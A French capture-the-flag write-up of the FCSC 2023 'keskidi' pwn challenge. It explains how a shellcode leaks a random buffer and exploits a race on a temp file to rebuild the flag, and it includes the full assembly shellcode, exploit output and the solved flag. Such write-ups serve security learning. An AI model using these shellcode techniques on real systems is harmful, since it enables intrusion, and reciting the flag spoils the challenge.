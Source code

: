 
<p align="center">
  <img src="img/consignes.png" />
</p>

Le binaire du challenge nous est fourni : [keskidi](files/keskidi)

Challenge très amusant, et frustrant, qui m'a demandé pas mal d'ajustements pour sortir le flag.

#### Fonctionnement du code

L'analyse du binaire montre que toutes les sécurités sont activées (+ASLR sur le serveur)

```bash
$ checksec keskidi
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Le binaire réalise plusieurs actions :
- création d'un fichier temporaire dans `/tmp`
- écriture de 0x1000 octets aléatoires dans ce fichier mais aussi dans la .bss
- lancement d'un processus fils (avec des droits réduits) qui va lire une entrée de l'utilisateur et l'exécuter (un shellcode est attendu)
- le processus père lit le fichier `flag.txt`, cherche chaque occurence de caractère du flag dans les 0x1000 octets aléatoires de la .bss et les remplace dans le fichier temporaire par des `0x00`


Le fichier temporaire étant aussi accessible pour le processus fils (et donc notre shellcode), l'idée va être :
- de dumper le random original depuis la .bss
- lire les modifications sur le fichier temporaire
- retrouver dans le random d'origine les caractères remplacés par des `0x00` pour reconstituer le flag.


#### Quelques points d'attention

Après la création du fichier temporaire, un appel à `unlink()` le détruit du file system, cependant (voir le man de la fonction) le filedescriptor reste ouvert et accessible pour le programme tant qu'il s'exécute.

On a une indication sur la taille du flag, qui sera précieuse :

```c
if ((int)sVar3 != 0x46) {
  perror("read: the flag must be 70-char long.");
  exit(1);
}
```

Droits du fichier temporaire : `iVar2 = fchmod(DAT_00104040,0666);`


Calcul des offsets :

Le processus fils appelle une fonction que j'ai appelée `mem_buffer` pour lire puis exécuter notre shellcode. A l'exécution de celui-ci (`CALL RAX`) `rip` est poussé sur la stack et contient l'adresse de l'instruction suivante dans `mem_buffer`.

On pourra s'en servir pour calculer les décalages avec l'adresse de `tmp_file` et l'adresse du random dans la .bss.


### Premier shellcode

- leak du numéro du filedescriptor du fichier temporaire (pour confirmer)
- leak des `0x1000` octets de random utilisés comme "masque"
- boucle infinie pour lire quelques octets du fichier temporaire

```c
if (c != (undefined *)0x0) {
  lseek(tmp_file,(__off_t)(c + -0x104060),0);
  write(tmp_file,&NULL_byte,1);
  syncfs();
  c = c + 1;
}
```

A chaque écriture la tête de lecture va pointer sur l'octer suivant celui écrasé par un NULL byte.

Dans le shellcode, je reviens d'un octet en arrière pour lire le NULL byte et quelques octets random.

Ces quelques octets permettent de rechercher cette même séquence dans le random originial, puis comparer l'octet précédent, s'il est non nul dans le random original il est récupéré comme caractère du flag.


Ce shellcode fonctionnait en local, mais difficilement en remote.

Plusieurs exécution donnaient des morceaux de flag :
```
FCSC5cda17Fc57{a5{ba21c8eb5a{aSa2b293c971704b2e2SFadSb23c38579f{a2F7FC
Cd71d7{S7231c8eb5a29c970423b73a78787d62e3075ed39ec3ab5d3fbc7cC494f4Fef
FCFC{5da751b72cb529c974b37de35e3e5d3fe8}6c
191f5e64e9ef4786964969¶7e79e4150f47f671861f6a5d61917a6a5456Ð6f7adf7b8e
FC431c8eb29c97042373a7d462eC3075ed39e3a5d3fbc4e8}
FSC{5cda71b72431c89c97473a7607a3fbc8}d
FC{5cda7f5ba4231c8eb5a29c97090b0414212353S3b73a7d46292C2e2e3075edScd38
F{a4238eb5a2959423b73a7d46e3075ed39ec0c3b5dbc49464Fe8}6c
FCS5cf5ba472423{31ac8eCeceb5e5aea2Cf7{fCdf5daf23c{141F297373b73a87d462ea3075ed1d39ec3ab5df8}F
F{a751241c85a29c970423b7d34353aSa7d4{4S46C62ec20df{a71S8fC87S7{c71eadf
FC{5cda7f51ba4724231c8eb5a29c9709S0420383e438b8574F1f8bF{bFaSb{9Fbe{b3


FCSC{da7f51ba47242c23b31c{d41S1b5cCfcdc8eb87b590423aedcfc}71F{2
FC524c8ea29c9708423b737aCaCa4a7d5d462e5305ed39ec3ab5{5d5dSd539{S4Fa14e
FCSC{5cdad51ba47243cS8eb5a29c970473a7d463079e39ec3b5d3fbcSdc14e0e8}
FCSC{5cda7f571d1a4{4724231cS8eb515a7a29c93970Sa84e823C3fb73a746e305ed3

FCSC{57f51ba472421{8480e79C0{e0e41d3FafFcfS787F92S2e43639e7be}{
FCSC{5cdafc51{7172d31cd8e2129C704d62e72939ab59dS1Sf4e8}3}e1}d
FCS{5cda7cf5afba2141cFa1bdbaCc237e43d4Ff36305CedaC35bc8c{4SFeCef8dC}C}c}S1CS193
```

En simplifiant le shellcode (`push pop` remplacés par des `mov` directs, `xor` pour mettre à zéro), le rendu était un peu meilleur.

Je me suis dit que la race condition avec le processus père s'améliorait.

#### Second shellcode

Pour continuer j'ai ajouté un appel système a `sys_nanosleep` dans la boucle du shellcode, et j'ai joué avec la valeur du sleep pour essayer de caler ma boucle sur les opérations d'écritures du processus père.

Code complet [exploit3.py](files/exploit3.py)


```python
shellcode="""

// constantes pour nanosleep
  mov r10, QWORD PTR [rsp]
  add r10, 0x2c88
  mov r12, r10
  add r12, 0x08
  mov QWORD PTR [r10], 0x0
  mov QWORD PTR [r12], 10000


// leak tmp_file descriptor
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2c80
  push SYS_write
  pop rax
  syscall

// leak random from .bss
  push 1
  pop rdi
  xor edx, edx
  mov rdx, 0x1000
  mov rsi, QWORD PTR [rsp]
  add rsi, 0x2ca0
  push SYS_write
  pop rax
  syscall

  lab:
// fseek(fd,-0x1,1)
  mov rdi, 4
  mov rsi, -0x1
  mov rdx, 1
  mov rax, 0x8
  syscall


// read(fd,rsp,0x5)
  mov rsi, rsp
  mov rdx, 0x5
  xor rax, rax
  syscall

// write(1, rsp, 0x5)
  mov rdi, 1
  mov rax, 1
  syscall

  //nanosleep
  mov rdi, r10
  mov rsi, r12
  mov rax, 35
  syscall
  jmp lab
"""
```


Avec quelques essais, le flag sort correctement :

```bash
python3 exploit3.py REMOTE
[*] '/home/maskott/ctf/fcsc_2023/pwn/keskidi/keskidi'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] File descriptor b'\x04'
[*] Random data received : 4096
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}
[*] Closed connection to challenges.france-cybersecurity-challenge.fr port 2103
```
